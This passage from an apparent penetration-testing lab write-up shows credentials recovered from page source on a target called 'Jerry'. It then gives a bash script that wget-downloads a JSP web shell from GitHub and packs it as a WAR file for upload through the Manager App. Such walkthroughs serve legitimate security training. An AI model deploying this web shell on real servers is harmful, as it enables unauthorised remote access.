 Inspecting the source code of the page reveals a username and password:

![](images/Emulating%20Threat%20Methodologies/image099.png)<br><br>

After logging in with these credentials, we see this user has the ability to upload WAR files.

### Jerry Remote Exploit

Create a WAR using the following script:

```bash
#!/bin/bash
wget https://raw.githubusercontent.com/tennc/webshell/master/jsp/jspbrowser/Browser.jsp -O index.jsp
rm -rf webshell && rm -f wshell.war && mkdir wshell
cp index.jsp wshell/ && cd wshell
jar -cvf ../wshell.war *
```

Upload the wshell.war file and then scroll down and find it in the Manager App:

![](images/Emulating%20Threat%20Methodologies/image100.png)<br><br>

Clicking on it will navigate to the shell were you can use it to perform local enumeration:

![](images/Emulating%20Threat%20Methodologies/image101.png)<br><br>
